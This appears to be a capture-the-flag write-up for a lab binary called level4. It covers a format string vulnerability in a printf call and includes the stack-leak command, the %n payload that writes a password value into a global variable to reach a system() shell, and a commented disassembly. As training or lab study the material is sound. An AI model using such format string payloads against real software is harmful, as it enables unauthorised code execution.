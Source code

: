 - attack: format string exploitation (adress leaks)
- binary behavior: fgets argument and send it to printf, if global argument = 64 run the shell
- targeted functions: n, p and main
- vulnerability in v: printf() without argument (Bugs section in printf man)
- defense: fget

Method:
- do stack leakage
- find in leakage the position of the buffer (find repetition and compare with hex ASCII table)
- find the global variable (password)
- overwrite buffer with address of global variable 
- and pass 16930116 as its value
 
Info:
- positon of buffer in stack - 12

- 0x8049810 - address global variable
- 10980408 - same in little-endian
- same in hex - \x10\x98\x04\x08
- the password - 0x1025544 or 16930116

- offset code structure: 16930112 = 16930116 (password) - 4 (buffer address)


Code:
objdump -d ./level4
(python -c 'print "0000" + " %p" * 15'; cat) | ./level4
./level4 <<< $(python -c 'print "\x10\x98\x04\x08" + "%16930112x" + "%12$n"')


Functions

080484a7 <main>:
 80484a7:       55                      push   %ebp
 80484a8:       89 e5                   mov    %esp,%ebp
 80484aa:       83 e4 f0                and    $0xfffffff0,%esp
 80484ad:       e8 a5 ff ff ff          call   8048457 <n> # move to n
 80484b2:       c9                      leave
 80484b3:       c3                      ret


08048457 <n>:
 8048457:       55                      push   %ebp
 8048458:       89 e5                   mov    %esp,%ebp
 804845a:       81 ec 18 02 00 00       sub    $0x218,%esp
 8048460:       a1 04 98 04 08          mov    0x8049804,%eax
 8048465:       89 44 24 08             mov    %eax,0x8(%esp)
 8048469:       c7 44 24 04 00 02 00    movl   $0x200,0x4(%esp)
 8048470:       00
 8048471:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax
 8048477:       89 04 24                mov    %eax,(%esp)
 804847a:       e8 d1 fe ff ff          call   8048350 <fgets@plt> # defence
 804847f:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax
 8048485:       89 04 24                mov    %eax,(%esp)
 8048488:       e8 b7 ff ff ff          call   8048444 <p> # calling p
 804848d:       a1 10 98 04 08          mov    0x8049810,%eax # global varibale
 8048492:       3d 44 55 02 01          cmp    $0x1025544,%eax # password
 8048497:       75 0c                   jne    80484a5 <n+0x4e> # call system if true
 8048499:       c7 04 24 90 85 04 08    movl   $0x8048590,(%esp)
 80484a0:       e8 bb fe ff ff          call   8048360 <system@plt> # exloit
 80484a5:       c9                      leave
 80484a6:       c3                      ret


 08048444 <p>:
 8048444:       55                      push   %ebp
 8048445:       89 e5                   mov    %esp,%ebp
 8048447:       83 ec 18                sub    $0x18,%esp
 804844a:       8b 45 08                mov    0x8(%ebp),%eax
 804844d:       89 04 24                mov    %eax,(%esp)
 8048450:       e8 eb fe ff ff          call   8048340 <printf@plt> # exploit
 8048455:       c9                      leave
 8048456:       c3                      ret